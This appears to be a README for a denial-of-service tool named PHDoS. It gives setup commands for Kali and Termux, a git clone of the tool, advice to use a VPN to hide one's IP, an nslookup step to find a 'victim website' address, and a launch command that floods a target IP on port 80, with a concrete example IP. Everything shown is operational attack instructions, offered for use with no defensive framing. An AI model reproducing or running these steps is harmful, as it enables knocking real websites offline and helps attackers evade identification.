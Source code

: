 Kali & Termux Compatible<br>
Requirements:
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimewebsite.com<b><br>
Get the IP Address of a victim website<br>

Installation & Usage:<br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
example:<br>
$ python3 phdos.py -s 35.240.181.176 -p 80 -t 135<br>

